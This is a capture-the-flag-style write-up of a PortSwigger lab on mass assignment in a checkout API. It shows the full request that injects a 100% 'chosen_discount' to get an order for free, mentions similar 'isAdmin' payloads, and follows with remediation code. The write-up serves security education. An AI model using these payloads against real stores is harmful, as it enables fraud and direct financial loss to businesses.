

# Lab 03: Exploiting a Mass Assignment Vulnerability

> **Topic**: API Testing Vulnerabilities
> **Lab Number**: 03
> **Platform**: PortSwigger Web Security Academy

## Category
Broken Access Control / API Security / Mass Assignment

## Vulnerability Summary
The application's checkout API endpoint accepts additional parameters beyond what the frontend sends. By adding a `chosen_discount` object with `percentage: 100`, we can manipulate the order total to $0 and complete purchases without paying. This is a classic mass assignment vulnerability where the API blindly trusts client-provided data.

## Attack Methodology

### Step 1: Normal Flow Recon
Logged in, browsed the store, and added an item to cart. Checked the normal checkout flow to see what requests the app sends.

The normal checkout POST request to `/cart` contained:
```json
{
    "chosen_products": [
        {
            "product_id": "1",
            "quantity": 1
        }
    ]
}
```

### Step 2: Mass Assignment Discovery
Sent the checkout request to Burp Repeater and started playing with the JSON body. Added an extra field that the frontend doesn't normally send:

```json
{
    "chosen_discount": {
        "percentage": 100
    },
    "chosen_products": [
        {
            "product_id": "1",
            "quantity": 1
        }
    ]
}
```

### Step 3: Exploitation
The API accepted the `chosen_discount` parameter and applied a 100% discount to the order.

Request sent:
```http
POST /cart HTTP/2
Host: 0a2a00ff048e8702824c24dd006b00e4.web-security-academy.net
Cookie: session=8rcF0tu8tdZZBbuhQvKzthCszhAXHrNh
Content-Type: text/plain;charset=UTF-8

{
    "chosen_discount": {
        "percentage": 100
    },
    "chosen_products": [
        {
            "product_id": "1",
            "quantity": 1
        }
    ]
}
```

**Response:**
```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
```

The 201 Created with the order confirmation redirect confirmed the exploit worked. Got the item for free.

### Step 4: Lab Solved
Order went through with zero payment. Flag captured.



## Technical Root Cause

Mass assignment (also called auto-binding) happens when frameworks automatically map client input to internal objects without filtering which properties are allowed.

### What Went Wrong

The backend probably looks something like this:

```javascript
// ❌ Vulnerable - blindly accepts all JSON fields
app.post('/cart', async (req, res) => {
    const orderData = req.body; // Contains chosen_discount, chosen_products, and anything else attacker sends

    // Framework auto-binds everything from the request
    const order = new Order(orderData);
    await order.save();

    res.redirect('/cart/order-confirmation?order-confirmed=true');
});
```

The `chosen_discount` field wasn't supposed to be client-controllable, but the API accepted it anyway because the backend object model included it and the framework didn't filter incoming fields.

### Why This Works

1. **Frontend doesn't send it** → devs think it's "hidden" from users
2. **Backend accepts it** → the API endpoint processes whatever JSON it receives
3. **No allowlist** → there's no validation of which fields are allowed from client input

This is the same vulnerability type that lets you add `"isAdmin": true` to user registration requests or `"balance": 999999` to payment APIs.

## Impact

| Attack Scenario | Business Impact |
|----------------|-----------------|
| 100% discount on orders | Direct revenue loss |
| Arbitrary discount values | Financial damage |
| Mass exploitation | Easy to automate |
| No authentication bypass needed | Any logged-in user can exploit |

**Severity**: **High/Critical**

In production, this could drain thousands in revenue before detection. Attackers don't even need to modify the frontend — just intercept and modify the API request.

## Remediation

### 1. Use Allowlists for Accepted Fields
```javascript
// ✅ Secure - only accept known fields
app.post('/cart', async (req, res) => {
    const allowedFields = ['chosen_products'];
    const sanitized = {};

    for (const field of allowedFields) {
        if (req.body[field] !== undefined) {
            sanitized[field] = req.body[field];
        }
    }

    const order = new Order(sanitized);
    await order.save();
});
```

### 2. Framework-Level Protection
```javascript
// Express with express-validator
const createOrderSchema = body().custom((value) => {
    const allowedKeys = ['chosen_products'];
    const extraKeys = Object.keys(value).filter(k => !allowedKeys.includes(k));
    if (extraKeys.length > 0) {
        throw new Error(`Unexpected fields: ${extraKeys.join(', ')}`);
    }
    return true;
});
```

### 3. Separate DTOs from Internal Models
```javascript
// Don't use your database model directly
// Create a DTO (Data Transfer Object) with only client-allowed fields
class CartRequestDTO {
    constructor(data) {
        this.chosen_products = data.chosen_products;
        // Explicitly don't include chosen_discount
    }
}
```

### 4. Input Validation
```javascript
// Validate the entire request structure
if (Object.keys(req.body).length > 1) {
    return res.status(400).json({ error: 'Too many fields' });
}
```

## Tools Used

- **Burp Suite Professional** — Repeater for modifying API requests
- **Chromium** — Browser for the lab

## Lessons Learned

1. **Mass assignment is everywhere** — Rails, Django, Express, Spring — most frameworks have some form of auto-binding

2. **Test beyond what the UI sends** — The frontend is just a hint of what the API accepts

3. **Hidden fields aren't secure** — Just because the UI doesn't show a discount input doesn't mean the API rejects it

4. **Always validate server-side** — Never trust that "the frontend won't send that"

5. **This isn't theoretical** — GitHub had a mass assignment vuln that let anyone become admin. Netflix had one that exposed internal data. It's real.

## References

- [PortSwigger: Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api)
- [OWASP API Security Top 10 - API6:2023 Mass Assignment](https://owasp.org/API-Security/editions/2023/en/0xa6-server-side-mass-assignment/)
- [GitHub Mass Assignment Incident](https://hackerone.com/reports/23104)

---

*Writeup by vibhxr*
